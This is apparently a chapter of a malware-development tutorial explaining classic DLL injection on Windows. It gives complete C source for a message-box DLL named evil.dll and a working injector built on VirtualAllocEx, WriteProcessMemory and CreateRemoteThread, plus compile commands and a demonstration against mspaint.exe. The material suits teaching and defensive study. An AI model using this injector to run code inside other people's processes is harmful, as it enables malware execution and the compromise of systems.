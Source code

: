 # 03 - injection (DLL)

Firstly, let’s go to prepare our DLL.   

There are slight difference in writing C code for `exe` and `DLL`. The basic difference is how you call you code in your module or program. In `exe` case there should be a function called main which is being called by the OS loader when it finishes all in initialization if a new process. At this point your program starts its execution when the OS loader finishes its job.    

On the other hand with the DLL's when you want to run your program as a dynamic library, it's a slighty different way, so the loader has already created process in memory and for some reason that process needs your DLL or any other DLL to be load it into the process and it might be due to the function your DLL implements.    

So exe need a `main` function and DLL's need `DLLMain` function.     
Basically that’s the simplest difference.    

For simplicity, we create DLL which just pop-up a message box:    

```cpp
/*
 * evil.c
 * simple DLL for DLL inject to process
 * author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Hello, Prishtina!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

This is important in the context of DLL Injection, as we are looking for simplest way to execute code in the context of other process. That is why most of malicious Dlls which are being injected have most of the malicious code in `DllMain`. There are ways to force a process to run exported function, but writing your code in `DllMain` is usually the simplest solution to get code execution.    

When run in injected process it should display our message: `Hello, Prishtina!`, so we will know that injection was successful. Now we can compile it (on attacker’s machine):    

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.c -fpermissive
```

![img](./img/2024-05-03_08-50.png)    

Now we only need a code which will inject this library into the process of our choosing.    

In our case we are going talk about classic DLL injection. We allocate an empty buffer of a size at least the length of the path of our DLL from disk. And then we copy the path to this buffer:     

```cpp
/*
 * hack.c
 * classic DLL injection example
 * author: @cocomelonc
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process ID
  if ( atoi(argv[1]) == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

It’s pretty simple as you can see. It's same as in my previous code injection example. The only difference is we add path of our DLL from disk:    

```cpp
char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;
```

and before we finally inject and run our DLL - we need a memory address of `LoadLibraryA` - [https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya):    

```cpp
HMODULE LoadLibraryA(
  [in] LPCSTR lpLibFileName
);
```

, as this will be an API call that we will execute in the context of the victim process to load our DLL:     

```cpp
// handle to kernel32 and pass it to GetProcAddress
HMODULE hKernel32 = GetModuleHandle("Kernel32");
VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");
```

So finally after we understood entire code of the injector, we can test it. Compile it:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![img](./img/2024-05-03_08-55.png)    

So, let's say we download our `evil.dll` to `C:\\`:    

![img](./img/2024-05-03_08-58.png)   

Let's first launch a `mspaint.exe` instance:  

![img](./img/2024-05-03_08-59.png)    

and then execute our program:    

```powershell
.\hack.exe <PID>
```

![img](./img/2024-05-03_08-59_1.png)    

![img](./img/2024-05-03_09-00.png)    

To verify our DLL is indeed injected into `mspaint.exe` process we can use Process Hacker again:    

![img](./img/2024-05-03_09-02.png)    

In the memory section we can see:    

![img](./img/2024-05-03_09-03.png)    

It seems our simple injection logic worked! This is just a simplest way to inject a DLL to another process but in many cases it is sufficient and very useful.    